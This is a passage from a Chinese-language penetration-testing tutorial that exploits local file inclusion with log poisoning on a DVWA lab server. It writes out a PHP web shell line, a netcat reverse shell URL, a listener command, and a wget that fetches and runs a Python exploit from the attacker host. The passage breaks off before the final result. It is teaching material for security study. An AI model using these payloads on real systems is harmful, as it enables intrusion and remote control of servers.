 注意`cmd`参数。我们发送`ifconfig`命令，该命令将由以下代码行调用：

`<?php echo shell_exec($_GET['cmd']);?>`，翻译为`<?php echo shell_exec(ifconfig)?>`

在下面的截图中突出显示的区域显示我们的命令已成功执行。

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/9735f03d-5ff3-45bc-9ccc-a0611ebbab1a.png)

现在让我们尝试从相同的`cmd`参数中获得一个反向 shell。我们将使用`netcat`来获得反向 shell。如果服务器上没有安装 netcat，我们也可以使用 Python 来获得 shell。让我们看看两者的效果。

# 使用 Netcat 进行反向 shell

在这种情况下，URL 和命令将如下：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=nc -e /bin/sh 192.168.1.102 4444`。

我们还需要设置一个`netcat`监听器，它将在端口`4444`上监听传入的连接。让我们在另一个终端上执行`nc -nlvp 4444`命令。现在，浏览 URL，看看我们是否得到了 shell：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/6cb31672-8088-4619-8644-f3f2fd021296.png)

浏览此 URL 后，让我们尝试查看我们生成的`netcat`监听器，看看我们是否获得了 shell：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/ac74a96b-fa99-40f3-b85e-5b63cc020431.png)

可以验证，我们得到了一个低权限的 shell，`www-data`。

# 使用 Python 进行反向 shell

现在，假设服务器上没有安装 Netcat。我们将使用 Python 来获得 shell。由于底层服务器是基于 Linux 的，默认情况下会安装 Python。因此，我们将修改我们的利用命令如下：

`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=wget http://192.168.1.102/exp.py -O /tmp/exp.py`

可以看到，我们将创建一个用 Python 编写的漏洞利用文件，并在攻击者机器上提供服务。由于在当前示例中，攻击者和受害者都在同一台机器上，URL 是`http://192.168.1.102`。漏洞利用文件的内容如下所示：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/7c01434c-6c79-4696-a69a-3724bb041b29.png)

下载漏洞利用文件将完成我们利用过程的第一步。第二步将是执行它并获取回监听器。这可以通过访问以下 URL 来执行：`http://192.168.1.102/dvwa/vulnerabilities/fi/?page=/var/log/apache2/access.log&cmd=python /tmp/exp.py`

让我们看看这个实际操作：

1.  在`/tmp`文件夹中下载并保存 Python 漏洞利用程序：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=wget http://192.168.1.102/exp.py -O /tmp/exp.py`

1.  验证是否已成功保存：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/30c5c1f9-b9d3-44b6-b144-48fc116ae178.png)

1.  在`444`上启动`netcat`监听器：`nc -nlvp 4444`。

1.  启动调用`exp.py`脚本连接回攻击者主机的命令：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=python /tmp/exp.py`。

让我们看看我们的监听器是否已经获得了 shell：
